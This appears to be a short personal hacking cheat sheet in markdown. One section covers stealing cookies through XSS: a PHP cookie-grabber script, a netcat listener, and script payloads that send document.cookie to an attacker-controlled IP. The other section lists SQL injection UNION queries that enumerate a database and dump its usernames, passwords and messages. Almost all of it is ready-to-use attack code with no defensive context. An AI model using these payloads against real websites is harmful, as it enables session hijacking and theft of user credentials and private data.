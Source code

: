 [back](/other/tricks.md)
# steal coockie
https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md
1. find xss
2. create malicious php code
```bash
cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF
```
3. set listener
```bash
rlwrap nc -nvlp <port>
```
4. insert xss:
```js
<script>document.location='http://<your ip>:<port>/grabber.php?c='+document.cookie</script>
```

```js
<script>document.write('<img src="http://<your ip>:80?c='+document.cookie+'" />');</script>
webup
```

# sqli
```
?user=1 order by 5--
0 UNION SELECT 1,database(),3,4
0 UNION SELECT 1,GROUP_CONCAT(table_name),3,4 FROM information_schema.tables WHERE table_schema='marketplace'
0 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='users'"
0 UNION SELECT 1,GROUP_CONCAT(username),3,4 FROM marketplace.users
0 UNION SELECT 1,GROUP_CONCAT(password),3,4 FROM marketplace.users
0 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_schema='marketplace' AND table_name='messages'
0 UNION SELECT 1,GROUP_CONCAT(message_content),3,4 FROM marketplace.messages
```
